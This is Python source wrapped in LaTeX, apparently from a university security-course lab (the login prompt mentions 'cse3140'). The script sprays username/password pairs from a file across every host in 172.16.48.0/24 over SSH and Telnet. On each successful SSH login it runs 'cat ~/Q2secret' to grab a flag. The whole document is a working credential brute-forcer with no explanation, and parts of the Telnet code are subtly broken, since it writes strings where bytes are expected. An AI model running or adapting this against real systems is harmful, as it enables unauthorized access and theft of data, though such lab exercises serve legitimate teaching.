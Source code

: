 \documentclass{article}
\begin{document}
\begin{verbatim}
import os
import queue
import socket
import subprocess
import sys
import telnetlib
import threading
import time

import paramiko

ip_range = "172.16.48."
creds = []

with open("Q2pwd") as f:
    for line in f:
        user, password = line.split(" ")
        creds.append((user.strip(), password.strip()))

def ssh_connect(ip, creds):
    for user, password in creds:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(ip, username=user, password=password, timeout=0.5, banner_timeout=0.5)
            stdin, stdout, stderr = ssh.exec_command("cat ~/Q2secret")
            flag = stdout.read().decode("utf-8")
            if flag:
                print("[SSH] Obtained the secret: {}:{}:{}:{}".format(ip, user, password, flag))
            
            print("[SSH] Success: {}:{}:{}".format(ip, user, password))
            ssh.close()
        except paramiko.AuthenticationException:
            print("[SSH] Auth Failed: {}:{}:{}".format(ip, user, password))
        except:
            print("[SSH] Error: {}:{}:{}".format(ip, user, password))
            break

def telnet_connect(ip, creds):
    for user, password in creds:
        try:
            tn = telnetlib.Telnet(ip, timeout=0.5)
            tn.read_until(b"cse3140-HVM-domU login: ")
            tn.write(user + "\n")
            tn.read_until(b"Password: ")
            tn.write(password + "\n")

            tn.write("exit\n")

            print("[Telnet] Success: {}:{}:{}".format(ip, user, password))
        except socket.timeout:
            print("[Telnet] Error: {}:{}:{}".format(ip, user, password))
            break
        except Exception as e:
            print(e)
            if e.args[0] == "Login incorrect":
                print("[Telnet] Auth Failed: {}:{}:{}".format(ip, user, password))
            else: print("[Telnet] Unexpected Error: {}:{}:{}".format(ip, user, password))

def main():
    for ip in range(1, 255):
        ip = ip_range + str(ip)
        ssh_thread = threading.Thread(target=ssh_connect, args=(ip, creds))
        telnet_thread = threading.Thread(target=telnet_connect, args=(ip, creds))
        ssh_thread.start()
        telnet_thread.start()
        ssh_thread.join()
        telnet_thread.join()

if __name__ == "__main__":
    main()
\end{verbatim}
\end{document}
